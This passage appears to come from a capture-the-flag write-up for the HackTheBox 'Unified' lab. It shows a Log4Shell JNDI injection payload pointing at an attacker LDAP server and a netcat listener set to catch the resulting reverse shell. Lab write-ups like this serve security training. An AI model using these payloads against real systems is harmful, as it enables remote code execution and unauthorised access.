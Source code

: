   ### ![image_alt](https://github.com/bikasha49/HackTheBox-Unified-Tier-II-Challenge/blob/bd584d47271bd7ceb170be8aaa2e159adc2643bf/22%20change%20the%20remember%20section%20payload%20and%20send%20the%20request%20to%20listen%20port%204444.png)
  - Returning to the intercepted POST request, modify the payload to ("${jndi:ldap://10.10.16.87:1389/o=tomcat}",) and then click Send
  ```bash
  "${jndi:ldap://10.10.16.87:1389/o=tomcat}",
  ```
  ## Step 23
  ### ![image_alt](https://github.com/bikasha49/HackTheBox-Unified-Tier-II-Challenge/blob/4b44283c7e6ce95e6c6da6abbc3c2a389f028ae6/23%20nc%20-lvp%204444%20listening%20and%20identify%20unifi.png)
  - With the server now listening locally on port 389, open a new terminal and initiate a Netcat listener to capture the incoming reverse shell
  ```bash
  nc -lvp 4444
  ```